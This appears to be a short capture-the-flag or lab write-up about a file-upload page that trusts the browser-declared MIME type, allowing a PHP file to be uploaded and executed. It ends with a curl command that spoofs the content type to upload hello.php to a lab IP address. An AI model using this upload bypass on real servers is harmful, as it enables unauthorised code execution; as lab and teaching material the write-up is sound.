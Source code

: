 On: ```/?page=upload```

### Flaw
The file input only accepts Mime Type ```image/jpeg``` but doesn't check the actual type of the file on the backend. It is therefore possible to upload a PHP file that would be executed and lead to a security breach.

### Flag
To tamper the file type: ```curl -F "uploaded=@hello.php;type=image/jpg" --form "MAX_FILE_SIZE=10000" --form "Upload=Upload" "http://10.11.200.135/?page=upload"```
